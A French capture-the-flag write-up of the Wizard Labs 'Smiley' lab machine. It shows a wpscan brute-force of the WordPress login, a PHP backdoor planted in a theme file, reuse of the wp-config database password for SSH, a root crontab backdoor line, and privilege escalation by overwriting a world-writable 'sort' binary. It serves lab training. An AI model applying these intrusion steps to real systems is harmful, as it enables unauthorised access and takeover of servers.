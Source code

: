 ```yaml
---
title: Solution du CTF Smiley de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Nitro
-----

[Wizard Labs](https://labs.wizard-security.net/) est une plateforme de CTF similaire à *HackTheBox* qui permet d'accéder via VPN à un réseau de machines vulnérables.  

Ici c'est l'occasion de s'attaquer à *Smiley*, l'une des machines qui a un niveau de difficulté de 3 sur 10.  

Gathering
---------

Les services accessibles sur la machine sont caractéristiques d'une machine Linux : ssh, rpcbind et un Apache, tous sur leurs ports habituels.  

Le site web renvoie un *Wordpress* géré par un certain *smiley* :  

![Wizard Labs CTF Smiley wordpress site](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/smiley_wordpress.png)

Je m'empresse d'utiliser [WPscan](https://wpscan.org/) pour énumérer la version de Wordpress et les plugins installés. Cela n'a rien remonté d'intéressant donc on va s'intéresser aux utilisateurs :  

```plain
$ wpscan --url http://10.1.1.42/ -e u1-100 -P top500.txt
[+] Enumerating Users
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (100 / 100) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] smiley
 | Detected By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - smiley / music                                                                                                                                                                    
Trying smiley / nathan Time: 00:00:25 <=================> (325 / 325) 100.00% Time: 00:00:25

[i] Valid Combinations Found:
 | Username: smiley, Password: music
```

Ici j'ai utilisé une wordlist contenant les 500 mots de passe les plus utilisés. On peut trouver des listes de ce site sur Github. *Ncrack* dispose d'une liste similaire [qui contient 5000 passwords](https://github.com/nmap/ncrack/blob/master/lists/top50000.pwd).  

Ces identifiants permettent donc d'accéder à la partie admin du site en se rendant sur */wp-admin*. Dans une situation comme celle-ci on peut installer un module Wordpress qui nous facilite la vie comme pour le [CTF Basic Pentesting: 1](http://devloop.users.sourceforge.net/index.php?article143/solution-du-ctf-basic-pentesting-1-de-vulnhub) ou bien aller modifier un script PHP d'un thème existant dans *Appearance > Editor* (*footer.php* par exemple).  

![Wizard Labs CTF Smiley wordpress theme edit backdoor](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/smiley_wp_edit.png)

Via une backdoor PHP insérée dans le script on peut exécuter des commandes sur le système en tant que *www-data* (pas vraiment de surprises).  

Le système est *Linux smiley 3.16.0-6-586 #1 Debian 3.16.56-1 (2018-04-28) i686 GNU/Linux*.  

On note dans */etc/passwd* la présence d'un utilisateur nommé *mike* d'UID 1000.  

Parmi les fichiers qu'il possède on trouve */var/tmp/binary\_as\_root* qui d'après les chaînes présentes dans ce binaire ELF semble être une copie de bash ou d'un autre shell...  

Malgré le nom donné à l'exécutable ce dernier n'est pas setuid et ne dispose pas non plus de [capabilities](https://linux.die.net/man/7/capabilities)...  

PrivEsc
-------

Dans le fichier de configuration de Wordpress on trouve le mot de passe permettant l'accès au MySQL.  

Ça semble inutile de fouiller dans la base *Wordpress* étant donné qu'on dispose du mot de passe de *smiley* mais il s'avère que le mot de passe ci-dessous permette l'accès SSH avec le compte *mike*, de quoi obtenir un shell digne de ce nom :)   

```php
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');
```

Dans le dossier personnel de l'utilisateur on trouve un binaire setuid root :  

```plain
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 /home/mike/listwww
```

Ce dernier a un fonctionnement que l'on peut deviner simplement en appliquant la commande strings dessus :  

```plain
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
setreuid
printf
system
__cxa_finalize
__libc_start_main
GLIBC_2.1.3
GLIBC_2.0
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
UWVS
[^_]
listing /var/www/html
sleep 3
/bin/ls /var/www/html
```

Il effectue donc un *setreuid(0)* avec de lancer deux commandes bash, la première étant une fonction builtin (sleep), l'autre */bin/ls* avec le path complet...  

Ca ne semble pas laisser trop de possibilités à l'exploitation (jouer sur les PATHs et la recherche des exécutables par le binaire) mais avec [ShellShock](https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29) sait-on jamais.  

J'ai donc utilisé [bashcheck](https://github.com/hannob/bashcheck) pour tester la présence de la vulnérabilité bash mais il m'a dis... nope  

```plain
mike@smiley:~$ ./bashcheck
Testing /bin/bash ...
Bash version 4.3.30(1)-release

Variable function parser pre/suffixed [%%, upstream], bugs not exploitable
Not vulnerable to CVE-2014-6271 (original shellshock)
Not vulnerable to CVE-2014-7169 (taviso bug)
Not vulnerable to CVE-2014-7186 (redir_stack bug)
Test for CVE-2014-7187 not reliable without address sanitizer
Not vulnerable to CVE-2014-6277 (lcamtuf bug #1)
Not vulnerable to CVE-2014-6278 (lcamtuf bug #2)
```

J'ai aussi testé la faille XTRACE/PS4 utilisée pour le [CTF /dev/random: k2](http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub) sans plus de succès.  

La machine a une autre particularité qui ne peux pas échapper à des yeux avisés :  

```plain
-rwxrwxrwx 1 root root  822 Sep  5 05:29 /etc/crontab
```

Mais j'ai beau eu rajouter une ligne pour faire exécuter un script toutes les minutes :  

```plain
*/1 * * * * root /tmp/backdoor.py
```

... rien ne se passait :-|  

L'autre point inhabituel sur cette machine c'est que de nombreux binaires classiques sont word-writables...  

Du coup j'ai ressortit le script que j'avais fait pour le [CTF Homeless](http://devloop.users.sourceforge.net/index.php?article150/solution-du-ctf-homeless-de-vulnhub) qui surveille la liste des processus lancés sur le système histoire de voir de bons candidats à la réécriture.  

Le script montre que les taches CRON sont bien lancées mais bizarrement pas la notre :(  

```plain
6028 root /usr/sbin/CRON -f
6029 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6031 root /bin/sh -c test -x /etc/init.d/anacron && /usr/sbin/invoke-rc.d anacron start >/dev/null
6038 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6040 root xargs
6041 root xargs
6044 root /bin/sh /usr/sbin/invoke-rc.d anacron start
6049 root /bin/sh /usr/sbin/invoke-rc.d anacron start
```

```plain
13317 root /usr/sbin/CRON -f
13319 root /bin/sh -c   [ -x /usr/lib/php5/sessionclean ] && /usr/lib/php5/sessionclean
13320 root /bin/sh -e /usr/lib/php5/sessionclean
13321 root /bin/sh -e /usr/lib/php5/sessionclean
13322 root sort -rn -t: -k2,2
13323 root sort -u -t: -k 1,1
13324 root /bin/sh -e /usr/lib/php5/sessionclean
13326 root /bin/sh -e /usr/lib/php5/sessionclean
```

Pas bien grave puisque j'ai choisit d'écraser le binaire *sort* par mon script Python initial qui m'a donné un accès root plusieurs minutes plus tard ([voir le Github d'infodox](https://github.com/infodox/python-pty-shells) pour des shells sympas en Python) :  

```plain
root@smiley:~# id
uid=0(root) gid=0(root) groups=0(root)
root@smiley:~# cd /root
root@smiley:~# ls -al
total 40
drwx------  5 root root 4096 Jun 15  2018 .
drwxr-xr-x 21 root root 4096 May  4  2018 ..
-rw-------  1 root root   70 Dec 27 06:20 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root  663 May 10  2018 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
-rwx------  1 root root   33 May 10  2018 root.txt
drwxr-xr-x  3 root root 4096 May  4  2018 .vagrant
drwxr-xr-x  7 root root 4096 May  4  2018 .vagrant.d
drwx------  2 root root 4096 May  4  2018 .VirtualBox
root@smiley:~# cat root.txt
a16c3--- snip ---60f2b9b
root@smiley:~# cd /home/mike
root@smiley:/home/mike# ls
listwww  user.txt
root@smiley:/home/mike# cat user.txt
b075f--- snip ---88379
```

That's it
---------

Done ! On était dans de l'exploitation Linux très classique : énumération, brute-force puis escalade de privilège par écrasement d'un binaire ou accès à la crontab.  


*Published November 17 2020 at 13:44*
